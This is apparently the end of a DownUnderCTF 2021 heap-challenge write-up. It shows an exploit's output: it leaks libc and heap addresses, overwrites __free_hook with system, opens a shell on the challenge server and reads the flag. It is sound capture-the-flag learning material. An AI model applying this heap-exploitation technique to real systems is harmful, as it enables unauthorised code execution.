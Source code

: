 ```
[+] Opening connection to pwn-2021.duc.tf on port 31917: Done
[*] leaking libc address...
[+] libc base @ 0x7f201d1c4000
[*] leaking heap address...
[+] heap base @ 0x55e7f2322000
[*] overwriting __free_hook with system...
[*] Switching to interactive mode

$ id
uid=1000 gid=1000 groups=1000
$ ls -la
total 2204
drwxr-xr-x 1 65534 65534    4096 Sep 17 12:29 .
drwxrwxrwt 7  1000  1000     140 Sep 29 18:04 ..
-rw-r--r-- 1 65534 65534      42 Sep 17 11:24 flag.txt
-rwxr-xr-x 1 65534 65534  191472 Sep 17 11:24 ld-2.31.so
-rwxr-xr-x 1 65534 65534 2029224 Sep 17 11:24 libc.so.6
-rwxr-xr-x 1 65534 65534   21832 Sep 17 12:29 pwn
$ cat flag.txt
DUCTF{n0w_you_4r3_r34dy_f0r_r34l_m$_0d4y}
```

---

Thanks to grub and DownUnderCTF team for this cool heap challenge and nice ctf :)
